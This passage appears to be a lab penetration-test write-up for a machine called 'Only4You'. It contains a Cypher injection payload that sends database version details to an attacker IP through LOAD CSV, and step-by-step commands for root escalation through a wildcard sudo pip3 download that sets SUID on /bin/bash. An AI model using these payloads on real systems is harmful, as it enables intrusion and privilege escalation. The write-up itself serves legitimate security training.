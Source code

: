 ``` ' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.26:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // ```
**Vulnerability Explanation**: After establishing a foothold on target as user “john”, it was checked which commands was possible to run as sudo and found that john is authorized to run “/usr/bin/pip3 download http://127.0.0.1:3000/*.tar.gz” as sudo. As there is a wildcard (*) in the command, it is possible to download any file with extension “.tar.gz” from localhost port 3000. In this port is where the Gogs is running so it is possible to upload a malicious python package to an existing repository that executes the code we want and download it with privileges (thus, ex-ecuting the code with privileges) using the available command.

![image](images/Only4You/Imagen36.png)

**Vulnerability Fix**: Avoid using wildcards on the available sudo commands.

**Severity**: Critical

**Steps to reproduce the attack**:

•	Create a malicious python package (https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/pip-download-code-execution/). In this case, the code sets the SUID bit active to “/bin/bash”
      
•	Upload the malicious package to the “Test” repository (or a newly created one).
      
•	Set the repository “Test” as “public” (or check that the repository used is Visible).

•	Execute ``` sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/src/master/exploitpy-0.0.1.tar.gz ```
      
•	Execute ``` /bin/bash -p ```

![image](images/Only4You/Imagen37.png)

![image](images/Only4You/Imagen38.png)
































```